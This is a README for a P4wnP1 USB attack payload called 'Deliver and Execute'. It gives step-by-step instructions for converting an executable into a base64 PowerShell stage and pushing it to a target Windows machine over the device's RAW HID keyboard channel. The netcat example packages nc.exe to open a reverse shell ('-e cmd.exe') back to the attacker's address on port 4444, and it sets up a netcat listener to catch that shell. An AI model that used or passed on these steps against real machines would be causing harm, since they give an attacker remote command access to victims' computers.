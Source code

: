 # Deliver and Execute

## Description

Use P4wnP1 RAW HID channel to deliver and execute an Executable file using poershell

The **DeliverAndExec.py** Takes an Executable file, convert it to base64 and creates the powershell payload **Stage2.ps1** which will be delivered to the target machine via P4wnP1 RAW HID channel.

## DEMO

![](https://raw.githubusercontent.com/NightRang3r/P4wnP1-A.L.O.A.-Payloads/master/RAW%20HID%20Attacks/DeliverAndExecute/deliver.gif)

## Instructions (NETCAT Example)

- Using the P4wnP1 web interface set P4wnP1 as Keyboard and RAW HID
- SSH to P4wnP1 AP IP address
- Copy DeliverAndExec.sh to `/usr/local/P4wnP1/scripts/`
- Copy DeliverAndExec.py to `/usr/local/P4wnP1/legacy/`
- Copy DeliverAndExec.js to `/usr/local/P4wnP1/HIDScripts/`
- Generate a payload: `python2 DeliverAndExec.py /usr/share/windows-binaries/nc.exe out.exe "172.24.0.1 4444 -e cmd.exe"`
- Make sure the **Stage2.ps1** file is in the `/usr/local/P4wnP1/legacy/` directory
- Start the RAW HID Listener nad netcat listener

  - You can use the **DeliverAndExec.sh** which will start the RAW HID listener, netcat listener and execute theDeliverAndExec.js hidscript (made for the netcat example) or do it manually:
  - `hidraw=$(P4wnP1_cli usb get device raw)`
  - `python2 /usr/local/P4wnP1/legacy/hidstager.py -s -i  /usr/local/P4wnP1/legacy/Stage2.ps1 -o $hidraw &`
  - `netcat -lvp 4444`

- Using the P4wnP1 web interface Execute the **DeliverAndExec.js** HIDscript
